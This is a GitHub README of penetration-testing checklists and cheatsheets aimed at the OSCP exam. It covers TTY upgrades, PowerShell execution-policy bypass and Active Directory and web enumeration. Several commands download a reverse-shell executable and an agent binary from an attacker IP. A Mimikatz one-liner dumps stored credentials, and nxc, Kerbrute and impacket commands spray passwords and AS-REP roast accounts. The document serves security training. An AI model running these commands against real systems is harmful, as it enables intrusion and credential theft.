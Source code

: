 # Penetration Testing Checklists and Cheatsheets

This repository contains various checklists and cheatsheets to aid in penetration testing and preparing for the Offensive Security OSCP exam.

## Table of Contents

1. [Commands Cheat Sheet](#commands-cheat-sheet)
2. [General Checklists](#general-checklists)
   - [General Checklist Before Starting](#general-checklist-before-starting)
   - [General Checklist for Web Applications](#general-checklist-for-web-applications)
3. [Detailed Checklists](#detailed-checklists)
   - [Web Application Pre-Authentication Checklist](#web-application-pre-authentication-checklist)
   - [Web Application Directory Enumeration Checklist](#web-application-directory-enumeration-checklist)
   - [Web Application Login Checklist](#web-application-login-checklist)
   - [Finding Vulnerabilities and Exploits Checklist](#finding-vulnerabilities-and-exploits-checklist)
   - [Network Discovery and Port Scan Checklist](#network-discovery-and-port-scan-checklist)
   - [Active Directory General Checklist](#active-directory-general-checklist)
   - [Active Directory with Credentials Checklist](#active-directory-with-credentials-checklist)
   - [Active Directory without Credentials Checklist](#active-directory-without-credentials-checklist)
   - [Active Directory Kerberos Checklist](#active-directory-kerberos-checklist)
   - [Active Directory Lateral and Vertical Movement Checklist](#active-directory-lateral-and-vertical-movement-checklist)
   - [Privilege Escalation Windows Checklist](#privilege-escalation-windows-checklist)
   - [Privilege Escalation Linux Checklist](#privilege-escalation-linux-checklist)
   - [Ligolo-ng Checklist](#ligolo-ng-checklist)

---

## Commands Cheat Sheet

### Full TTY

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ls='ls -arlht --color=auto'
stty columns 200 rows 200
```

### Windows PowerShell Commands
EXECUTION POLICY
```powershell
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
powershell -ExecutionPolicy Bypass -File .\PowerView.ps1
```
Show file like with Tree
```
Get-ChildItem -Path "./*" -Include "*" -Recurse -ErrorAction SilentlyContinue
```
```
Get-ChildItem -Path "C:\Users\*" -Include "flag.txt", "local.txt", "user.txt", "password.txt", "proof.txt", "credentials.txt" -Recurse -ErrorAction SilentlyContinue
```
Download
```
wget http://192.168.123.100:8000/rev4445.exe -OutFile rev4445.exe
```
```
certutil -split -urlcache -f http://192.168.123.100:8000/agent.exe agent.exe
```
Mimikatz Oneliner
```
.\mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "vault::cred" "exit"
```
## General Checklists

### General Checklist Before Starting

1. Authenticate with credentials to BloodHound.
2. Perform quick enumeration in BloodHound.
3. Ensure you claim all flags and collect sufficient screenshots.
4. Check anonymous or guest access to SMB shares on all IPs as a good starting point.
5. Step back and attack the Domain Controller as if you do not have credentials.
6. Also try default credentials like `offsec:lab`.
7. Enumerate MS01 until the end, even if you have local admin—use WinPEAS as well.
8. If other credentials are found, repeat the enumeration phase.
9. Try using the username as the password (both domain and local).
10. Use `nxc smb 192.168.123.100 -u adcreds.txt -p adcreds.txt --no-bruteforce`.
11. Use `nxc smb 192.168.123.100-160 --local-auth -u adcreds.txt -p adcreds.txt --no-bruteforce`.
12. Check all shares with the current user, guest, and anonymous access.
13. Use `rpcdump` and `enum4linux` with credentials.
14. Enumerate users with Kerbrute:

    ```bash
    /Tools/kerbrute_linux_amd64 userenum -d domain.com --dc 192.168.123.100 $SECLIST/Usernames/Names/names.txt
    ```

15. Continue using Kerbrute until you have the naming schema, lots of users, and service accounts. Refer to [service-accounts.txt](https://github.com/crtvrffnrt/wordlists/blob/main/service-accounts.txt).
16. Request AS_REP messages:

    ```bash
    impacket-GetNPUsers domain.com/ -usersfile adcreds.txt -dc-ip 192.168.123.100 -request -outputfile hash.hash
    ```

    [ASREPRoast HackTricks Guide](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast#request-as_rep-message)

17. Perform a UDP scan.
18. Repeat your steps—**Enumeration is key; try harder.**
19. Run WinPEAS with user or local admin privileges again.
20. Connect to SMB with:

    ```bash
    impacket-smbclient domain.com/guest@192.168.123.100
    ```

21. Step back and review your enumeration to ensure nothing was missed.

### General Checklist for Web Applications

1. Disable any ad-blockers.
2. Find web servers in scope:

    ```bash
    nmap -vv -sV -p 80,443 --script http-title --open --min-rate 3000 -T4 192.168.123.100
    ```

3. Identify the tech stack using `whatweb`, `wappalyzer`, or `httpx`.
4. Check the website using [web-check.as93.net](https://web-check.as93.net/).
5. Use `feroxbuster` for directory enumeration:

    ```bash
    feroxbuster -u http://domain.com -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
    ```

6. Search for PDFs:

    ```bash
    feroxbuster -u http://192.168.123.100/ -w $SECLIST/Discovery/Web-Content/raft-large-words.txt -x pdf -q | grep '\.pdf$'
    ```

7. Scan with Nessus, Nuclei, Nikto, or Sn1per.
8. Check network interactions via browser DevTools.
9. Perform a Burp Suite Pro scan.
10. Enumerate subdomains:

    ```bash
    echo domain.com | subfinder -silent | httpx -silent -sc -title -td -ip -cname -cl -lc -server -efqdn -fr
    ```

11. Create a list of directories using Burp Suite and input them to `feroxbuster` to get a comprehensive sitemap.
12. Find exploits using Sploitus, SearchSploit, and CVEMap.
13. Check for LFI/RFI vulnerabilities.
14. Proceed to the [Web Application Login Checklist](#web-application-login-checklist).
15. Attempt to brute-force the login page.
16. Try different usernames.
17. Check if there is a Git repository.
18. Revert the machine if necessary.
19. Remember, **Enumeration is key; step back and try harder.**
20. Verify all findings and ensure no steps were missed.

